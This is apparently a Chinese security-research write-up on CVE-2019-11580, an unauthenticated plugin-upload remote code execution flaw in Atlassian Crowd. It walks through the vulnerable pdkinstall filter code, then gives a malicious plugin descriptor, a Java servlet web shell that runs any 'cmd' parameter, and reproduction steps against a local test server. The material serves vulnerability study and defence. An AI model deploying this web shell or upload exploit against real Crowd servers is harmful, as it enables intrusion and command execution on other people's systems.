




# CVE-2019-11580 Atlassian Crowd RCE

## 简介

攻击者可利用代码执行漏洞，在服务端执行任意代码，实现系统信息窃取等目标，从而造成巨大危害。Atlassian Crowd是一款企业身份管理应用，具有身份管理和单点登录功能，且通过插件进一步扩展了功能。Atlassian Crowd的插件pdkinstall中存在安全缺陷，易导致攻击者上传安装恶意插件进而达到远程代码执行的目的。

##  代码分析

本节主要分析Atlassian Crowd的pdkinstall插件信息。输入命令【git clone https://bitbucket.org/atlassian/pdkinstall-plugin】 下载插件源码，使用IDEA打开，如下图。

[](https://p0.ssl.qhimg.com/t0159a7b911809423b4.png)

首先，分析插件描述文件【atlassian-plugin.xml】。此文件采用XML格式数据重点说明插件模块与servlet的关联信息，内容如下。

[](https://p4.ssl.qhimg.com/t01ba1499cc1fbdc115.png)

图中标红区域说明，访问/admin/uploadplugin.action会调用servlet功能类com.atlassian.pdkinstall.PdkInstallFilter，完成新插件的上传、检测和安装过程。因此锁定此类为安全缺陷入口。

接着，分析其源码。在源码中，doFilter()函数是核心函数，涉及关键插件逻辑控制语句，因此我们分两部分来分析该函数源码。第1部分的源码及解析如下。

```
public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException,
ServletException {
    HttpServletRequest req = (HttpServletRequest) servletRequest;
    HttpServletResponse res = (HttpServletResponse) servletResponse;
    // 不是post请求，就报错
    if (!req.getMethod().equalsIgnoreCase(“post”)) {
        res.sendError(HttpServletResponse.SC_BAD_REQUEST, “Requires post”);
        return;
    }
    // 检查是否是multipart格式数据。
    // 数据包中，Content-Type用于表示资源的MIME类型，multipart/mixed类型主要用于传输有效的（二进制数据等）数据文件。
    // Check that we have a file upload request
    File tmp = null;
    boolean isMultipart = ServletFileUpload.isMultipartContent(req);
    if (isMultipart) {
        // 直接从数据包中提取jar文件继续安装插件
        tmp = extractJar(req, res, tmp);
    } else {
        // 从数据包中组合数据构建、安装插件
        tmp = buildJarFromFiles(req);
    }
```

此方法首先判别准入POST请求，随后检查数据包的Conten-Type类型是否是multipart：如是，则直接从数据包中提取jar文件插件；否则，从数据包中构建安装jar文件插件。

由于此函数代码后续跟进tmp变量开展判别任务，因此我们有必要深入相关函数分析返回的tmp变量值信息。进入extractJar(）函数分析jar文件插件提取过程，如下；buildJarFromFiles()函数分析过程类似，在此不赘述。

```
private File extractJar(HttpServletRequest req, HttpServletResponse res, File tmp) throws IOException {
    // Create a new file upload handler
    ServletFileUpload upload = new ServletFileUpload(factory);

    // Parse the request
    try {
        // 新建的文件上传实例会解析请求数据包，从而解析multipart/mixed格式的插件
        List < FileItem > items = upload.parseRequest(req);
        for (FileItem item: items) {
            // 如果解析所得的数据字段以“file”开头且不属于表格字段，则判定为插件信息，据此创建插件，插件在服务端的索引位置保存在tmp变量中
            if (item.getFieldName().startsWith(“file“) && !item.isFormField()) {
                tmp = File.createTempFile(“plugindev - “, item.getName());
                tmp.renameTo(new File(tmp.getParentFile(), item.getName()));
                item.write(tmp);
            }
        }
    } catch(FileUploadException e) {
        log.warn(e, e);
        res.sendError(HttpServletResponse.SC_BAD_REQUEST, “Unable to process file upload”);
    } catch(Exception e) {
        log.warn(e, e);
        res.sendError(HttpServletResponse.SC_INTERNAL_SERVER_ERROR, “Unable to process file upload”);
    }
    // 返回插件索引位置信息
    return tmp;
}
```

分析可知，如果数据包中存在以 ”file_” 开头且非表单字段的文件，则据此创建插件，并将插件的服务端位置索引保存至tmp变量中；否则，保持tmp变量为 “null”。最终返回tmp变量。

接着继续分析doFilter() 函数的第2部分，如下。

```
// tmp不为空，确定是插件上传安装请求且插件已被探测并上传，开始安装此插件，否则响应信息“Missing plugin file”
if (tmp != null) {
    List < String > errors = new ArrayList < String > ();
    try {
        // 安装插件
        errors.addAll(pluginInstaller.install(tmp));
    } catch(Exception ex) {
        log.error(ex);
        errors.add(ex.getMessage());
    }

    tmp.delete();

    if (errors.isEmpty()) {
        // 安装成功，响应“Installed plugin”+“具体路径”
        res.setStatus(HttpServletResponse.SC_OK);
        servletResponse.setContentType(“text / plain”);
        servletResponse.getWriter().println(“Installed plugin“ + tmp.getPath());
    } else {
        // 安装失败，响应“Unable to install plugin:”
        res.setStatus(HttpServletResponse.SC_BAD_REQUEST);
        servletResponse.setContentType(“text / plain”);
        servletResponse.getWriter().println(“Unable to install plugin: ”);
        for (String err: errors) {
            servletResponse.getWriter().println(“\t - “ + err);
        }
    }
    servletResponse.getWriter().close();
    return;
}
res.sendError(HttpServletResponse.SC_BAD_REQUEST, “Missing plugin file”);
}
```

分析可知，如tmp变量不为空，则开始安装插件，且安装成功返回响应信息 “Installed plugin” +“具体路径”，安装失败返回响应信息 ”Unable to install plugin:”；如 tmp变量为空，则返回响应信息 “Missing plugin file”。

至此，明确Atlassian Crowd的插件管理流程后可知，并不存在明确的插件功能检测机制，因此插件易被利用。

 

## 漏洞利用

首先，编写一个恶意插件，其 “atlassian-plugin.xml” 信息如下。

```
<atlassian-plugin key="com.cdl.shell.exp" name="Atlassian Manager" plugins-version="2" class="com.cdl.shell.exp">
<plugin-info>
<param name="atlassian-data-center-compatible">true</param>
<description>Atlassian Management plugin</description>
<version>1.0.0</version>
</plugin-info>

<servlet name="exploit" key="exploit" class="com.cdl.shell.exp">
<url-pattern>/exp</url-pattern>
<description>backdoor at /plugins/servlet/cdl</description>
</servlet>

</atlassian-plugin>
```

分析可知，插件上传成功后，用户只需访问 /exp即可使用恶意插件servlet类com.cdl.shell.exp的功能。

其次，分析com.cdl.shell.exp源码，如下：

```
public class exp extends javax.servlet.http.HttpServlet {

    public void doGet(HttpServletRequest req, HttpServletResponse res) {
        try {
            // 接收cmd参数信息
            String cmd = String.valueOf(req.getParameter(“cmd”));
            String output = ””;
            try {
                if (!cmd.equals(“”)) {
                    // 执行cmd参数命令
                    Process p = Runtime.getRuntime().exec(cmd);
                    InputStream out = p.getInputStream();
                    InputStream err = p.getErrorStream();
                    int c = ’\0’;
                    while ((c = out.read()) != -1) {
                        res.getWriter().write((char) c);
                    }
                }
            } catch(Exception ex) {
                output += ”\n” + ex.toString();
            }
        } catch(Exception e) {
            e.printStackTrace();
        }
    }

}
```

从中可知，此exp的功能是读取并执行 cmd参数值。

最后，编辑请求数据包以便上传恶意插件，接着在浏览器输入【http://localhost:8095/crowd/plugins/servlet/exp?cmd=whoami】即可执行 “whoami” 命令。观察服务端的响应信息（如下），可知漏洞利用成功。

[](https://p3.ssl.qhimg.com/t01aba88dc1a98c2b0b.png)

### 复现

第一步，下载【atlassian-crowd-3.4.3】。配置启动后，访问【http://localhost:8095/crowd】， 最终出现如下界面说明crowd服务搭建成功。

[](https://p0.ssl.qhimg.com/t01611e184d1dc36270.png)

第二步，访问链接【https://github.com/jas502n/CVE-2019-11580】 下载恶意插件等资料，随后执行【CVE-2019-11580.py】脚本，出现如下界面说明插件上传、安装成功。

[](https://p2.ssl.qhimg.com/t017d74ab1b31da48bc.png)

第三步，在浏览器访问链接【http://localhost:8095/crowd/plugins/servlet/exp?cmd=whoami】， 如出现如下界面，说明成功触发代码执行漏洞。

[](https://p3.ssl.qhimg.com/t013055c1f5662b39a0.png)

 

## 补丁

升级至最新版。

 

## 总结

通过分析Atlassian Crowd RCE，作者认为此漏洞的根本原因在于插件管理系统未全面测试外来插件的安全性；在相关漏洞研究学习中，我们应当提升Atlassian Crowd动态调试能力，插件分析开发能力，以及Java 和Python的开发能力。

 

## 参考文献

1、 jas502n/CVE-2019-11580: CVE-2019-11580 Atlassian Crowd and Crowd Data Center RCE
https://github.com/jas502n/CVE-2019-11580

2、 CVE-2019-11580：Atlassian Crowd RCE漏洞分析 – 安全客，安全资讯平台
https://www.anquanke.com/post/id/182118#h2-5